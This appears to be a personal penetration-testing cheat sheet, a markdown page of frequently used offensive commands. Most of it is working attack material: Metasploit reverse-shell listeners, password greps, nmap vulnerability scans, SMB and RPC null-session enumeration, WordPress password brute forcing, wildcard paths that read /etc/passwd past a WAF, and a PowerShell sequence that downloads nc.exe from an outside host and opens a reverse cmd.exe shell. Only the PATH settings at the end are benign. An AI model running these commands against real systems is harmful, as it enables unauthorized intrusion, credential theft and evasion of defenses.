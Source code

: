 ## Some commands which I used frequently 

### python command for bash 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 
```

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null ```

### to get nobody removed in NFS share
```
sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share
```

### msf meterpreter shell listener
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp
```

### Search 
```
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2
```

### nmap
```
Scan using default safe scripts         :	nmap -sV -sC 

Scan 100 most common ports (Fast)       :	nmap -F 
Scan using TCP connect                  :	nmap -sT 
Scan using TCP SYN scan (default)       :	nmap -sS 
Scan UDP ports                          :	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		    :	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		    :	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		  :	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						          :	nmap -Pn -p445 --script vuln -oN reconop.txt 
```

### SMB as used for msf
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
### SMB as cmd
```
smbclient //1.1.1.4/ < folder name >
```
### smbmap
```
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication
```

### where command in win to search type of files
```
where /r c:\ proof.txt
```

### Wordpress brute force
```
wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt
```

### shell from powershell 
```
first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow
```

### Dropbox links
```
ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data
```

### file browser for jsp
```
java -jar file-browser.jar
```

### gcc
```
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp
```
### rpc commands
```
rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users
```

### /etc/passwd WAF restriction? Use these:
```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
### paths for .bashrc
```
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups
```
### paths for .zshrc
```
export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
```
---END
